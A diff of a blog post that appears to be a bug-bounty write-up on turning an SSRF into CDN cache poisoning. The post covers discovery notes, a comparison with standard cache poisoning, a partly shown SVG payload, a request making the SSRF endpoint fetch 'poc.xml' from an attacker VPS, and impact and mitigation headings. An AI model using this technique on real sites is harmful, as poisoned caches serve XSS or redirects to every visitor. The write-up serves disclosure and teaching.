

Before and after one commit to thewindghost/thewindghost.github.io, a Markdown page: posts/SSRF-induced-Cache-Poisoning-Logic-Bug-translated.md, 2 parts joined by grey strips. Shown at 88% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/posts/SSRF-induced-Cache-Poisoning-Logic-Bug-translated.md
+++ b/posts/SSRF-induced-Cache-Poisoning-Logic-Bug-translated.md
@@ -18,35 +18,21 @@ Alright, why do I say that? Perhaps you might be curious: this vulnerability ori
 
 ---
 
-## 2. How Was Cache Poisoning Discovered?
+## 2. Comparison with Standard Cache Poisoning
 
-During the POC of `SSRF`, a collaborator discovered that it forced the use of the following `Response Header`: `image/svg+xml`. Previously, when sending the `Request` for it to `Fetch` to the Web Attacker, I set it to `text/html`, so it always returned a 400. Therefore, he tried various `Response Header` values, and after success, when using `image/svg+xml`, it returned status 200.
-
-- Here, using `text/html` returns status 400
-
-![alt text](/posts/image-post/cache-poisoning-via-fetching-data/4.jpg)
-
-- And here, using `image/svg+xml`
-
-![alt text](/posts/image-post/cache-poisoning-via-fetching-data/3.jpg)
-
-Pay attention to the `Content-Type` in the second line of the `Response Header`—it accepts `image/svg+xml`. If you look closely, you can see in the fourth image, at the end of the `Response Header`, that it has saved the `Cache` to `CloudFront` with the `Response Header` `X-Cache: Hit from cloudfront` and the most important part is still `Age: 5`. This means it really was saved to the cache. And another important point is that this is truly a `variant` I encountered for the first time, because normally `Cache Poisoning` will not save to the cache through a `Fetch` to the `Server Attacker`.
-
-Note: I used https://requestrepo.com/#/requests to modify the `Response Header`
-
-![alt text](/posts/image-post/cache-poisoning-via-fetching-data/5.png)
+| Standard Cache Poisoning            | SSRF‑Logic Bug Variant           |
+|-------------------------------------|----------------------------------|
+| Client sends payload directly       | Payload via SSRF intermediary    |
+| CDN caches server's direct response | CDN caches SSRF endpoint's response |
+| Controlled via headers (Host/Vary)  | Bug in the flow “Fetch → Cache → Serve” |
 
 ---
 
-## 3. How Can I Properly Prove to the Vendor that This Is Genuine Cache Poisoning
+## 3. Proof of Concept
 
-Of course, I have to show them how I attack a user via `Cache Poisoning`!
+### 3.1 SVG/XML Payload (`poc.xml`)
 
-I have the following `Payload`:
-
-`Poc.xml`
 ```xml
-- Payload xml
 <?xml version="1.0" encoding="UTF-8" standalone="no"?>
 <svg xmlns="http://www.w3.org/2000/svg" version="1.1">
   <foreignObject width="100%" height="100%">
@@ -124,30 +71,26 @@ An important point here is when I look at the `Logs` of the `Server Attacker`, I
 
-## 5. Diagram and Detailed Explanation
+- Request to the SSRF endpoint:
+  ```http
+  GET /media?u=http://VPS:5505/poc.xml HTTP/2
+  Host: vuln.example.com
+  ```
+- Response headers include:
+  ```
+  X-Cache: Hit from cloudfront
+  Age: 5
+  ```
+  → This proves the payload was cached.
 
-### + Differentiation from “Standard” Cache Poisoning
-
-- **Standard Cache Poisoning**
-  1. Attacker sends a request with a payload directly from the client.
-  2. Server or CDN embeds the payload in the response.
-  3. CDN caches the response and returns it to subsequent clients.
-  4. Main work: manipulate headers (`Host`, `Vary`, `Cache-Control`…) to control different cache keys.
-
-- **This Logic Bug Variant**
-  1. **Intermediate is SSRF/Fetch**
-     - Payload (SVG/XML) is fetched from the **server attacker**, not from the victim's browser.
-  2. **Main server** accidentally allows the `Fetch` to return the response with the header `Content-Type: image/svg+xml`, so **CloudFront automatically caches**.
-  3. **Repeated logic**: after caching, even if the victim makes multiple requests, the request is no longer forwarded to SSRF; it still returns the old cache—embedding the attacker's payload in the response.
+![CloudFront Hit](/posts/image-post/cache-poisoning-via-fetching-data/7.jpg)
 
 ---
 
-### + Why Call It a “Logic Bug” Instead?
+## 4. Impact
 
-1. **Flow design flaw** rather than just misconfiguration of the cache.
-2. **Server attacker** is allowed to fetch any URL and return it directly to the CDN.
-3. The **Fetch → Cache → Serve** flow lacks controls (domain whitelist, response header validation…), allowing SSRF to escalate into cache poisoning.
-4. More severe consequences: not only incorrect caching, but also **mass-targeted attacks** via SVG/redirect payloads, XSS, malicious file downloads.
+- The attacker’s payload is “frozen” in the CDN, **all users** receive the malicious content without needing to trigger SSRF again.
+- Enables **mass attacks**: redirect victims, XSS, malicious file downloads…
 
 ---
 
-### + Flow diagram
+## 5. Mitigation
 
````
Also changed, not shown: other parts of posts/SSRF-induced-Cache-Poisoning-Logic-Bug-translated.md (+17 -53 lines).
